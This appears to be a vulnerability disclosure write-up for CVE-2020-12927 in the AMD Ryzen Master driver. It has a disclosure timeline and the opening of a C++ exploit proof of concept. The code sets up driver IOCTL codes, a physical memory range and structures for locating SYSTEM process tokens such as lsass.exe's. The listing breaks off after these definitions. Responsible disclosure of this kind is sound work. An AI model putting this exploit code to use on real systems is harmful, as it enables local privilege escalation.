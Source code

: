 ## Disclosure Timeline
Big thanks to Tod Beardsley at Rapid7 for his help with the disclosure process!
+ 1 May 2020: Vendor notified of vulnerability
+ 1 May 2020: Vendor acknowledges vulnerability
+ 18 May 2020: Vendor supplies patch, restricting driver access to Administrator group
+ 18 May 2020 - 11 July 2020: Back and forth about CVE assignment
+ 23 Aug 2020 - CVE-2020-12927 assigned
+ 13 Oct 2020 - Joint Disclosure

## Exploit Proof of Concept
```cpp
#include <iostream>
#include <vector>
#include <chrono>
#include <iomanip>
#include <Windows.h>
using namespace std;

#define DEVICE_NAME         "\\\\.\\AMDRyzenMasterDriverV15"
#define WRITE_IOCTL         (DWORD)0x81112F0C
#define READ_IOCTL          (DWORD)0x81112F08
#define START_ADDRESS       (INT64)0x100000000
#define STOP_ADDRESS        (INT64)0x240000000

// Creating vector of hex representation of ImageFileNames of common 
// SYSTEM processes, eg. 'wmlms.exe' = hex('exe.smlw')
vector<INT64> SYSTEM_procs = {
    //0x78652e7373727363,         // csrss.exe
    0x78652e737361736c,         // lsass.exe
    //0x6578652e73736d73,         // smss.exe
    //0x7365636976726573,         // services.exe
    //0x6b6f72426d726753,         // SgrmBroker.exe
    //0x2e76736c6f6f7073,         // spoolsv.exe
    //0x6e6f676f6c6e6977,         // winlogon.exe
    //0x2e74696e696e6977,         // wininit.exe
    //0x6578652e736d6c77,         // wlms.exe
};

typedef struct {
    INT64 start_address;
    DWORD num_of_bytes;
    PBYTE write_buff;
} WRITE_INPUT_BUFFER;

typedef struct {
    INT64 start_address;
    DWORD num_of_bytes;
    char receiving_buff[0x1000];
} READ_INPUT_BUFFER;

// This struct will hold the address of a "Proc" tag's page entry, 
// that Proc chunk's header size, and how far into the page the "Proc" tag is
struct PROC_DATA {
    std::vector<INT64> proc_address;
    std::vector<INT64> page_entry_offset;
    std::vector<INT64> header_size;
};

struct SYSTEM_TOKENS {
    std::vector<INT64> token_name;
    std::vector<INT64> token_value;
} system_tokens;
```